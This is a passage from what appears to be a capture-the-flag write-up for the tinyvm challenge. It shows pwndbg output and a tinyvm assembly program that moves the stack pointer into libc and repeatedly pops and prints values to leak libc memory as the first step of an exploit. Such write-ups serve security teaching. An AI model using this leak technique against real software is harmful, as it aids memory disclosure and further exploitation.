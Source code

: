 ```c
04:0020│     0x7ffd7eb5bde0 ◂— 0x0
05:0028│     0x7ffd7eb5bde8 —▸ 0x55756d9422a0 (main) ◂— push r14
06:0030│     0x7ffd7eb5bdf0 ◂— 0x200000000
07:0038│     0x7ffd7eb5bdf8 —▸ 0x7ffd7eb5bee8 —▸ 0x7ffd7eb5cf9f ◂— '/media/sf_D_DRIVE/rwctf/tinyvm/bin/tvmi'
────────────────────────────────────────────[ BACKTRACE ]────────────────────────────────────────────
 ► f 0   0x55756d9422ce main+46
   f 1   0x7f5f81261d90 __libc_start_call_main+128
   f 2   0x7f5f81261e40 __libc_start_main+128
   f 3   0x55756d9421d5 _start+37
─────────────────────────────────────────────────────────────────────────────────────────────────────
pwndbg> sp
$1 = {
  i32 = 0x81238000,
  i32_ptr = 0x7f5f81238000,
  i16 = {
    h = 0x8000,
    l = 0x8000
  }
}
pwndbg> vmmap 0x7f5f81238000
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
    0x7f5f81238000     0x7f5f81260000 r--p    28000      0 /usr/lib/x86_64-linux-gnu/libc.so.6 +0x0
pwndbg> 
```

Stack grows towards lower addresses, so by doing `pop reg` we can leak bytes from memory (four bytes at per one `pop`). We can also print them because there is a VM opcode which will print a register value using `printf` ([tvm.h](https://github.com/jakogut/tinyvm/blob/master/include/tvm/tvm.h)). Unfortunately it prints value as a signed integer, so we need to handle that in python. VM program will have the following form:


```asm
# move sp to start of libc
add esp, 0x3e03ff0
mov ebp, esp

mov ecx, 0x250000
mov esi, 0

loop:
	pop eax
	prn eax

	inc esi
	cmp esi, ecx

	jl loop
```
